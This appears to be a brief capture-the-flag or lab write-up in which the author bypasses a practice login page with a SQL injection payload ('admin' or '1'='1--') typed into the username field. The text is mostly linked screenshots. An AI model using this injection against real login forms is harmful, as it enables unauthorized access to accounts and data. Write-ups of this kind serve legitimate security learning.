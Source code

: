 ## Task 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/03a4e469-f20d-401f-b911-cf2a5659ea6a)

Navigaying to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ac2b1b15-5dcf-4066-ba6e-e05101321ecf)

We get a login page. So the task is to bypass the login page using SQLi. 

Sounds sweet😎. We can use the query to bypass it
```
username: admin' or '1'='1--
password: blablabla
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/66a4a8a3-3658-4099-a7c7-4a2d08c6ee1f)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/057df693-52db-48d6-8e37-356add15ec48)

We successfully bypassed the login page, hence, completed the task😃















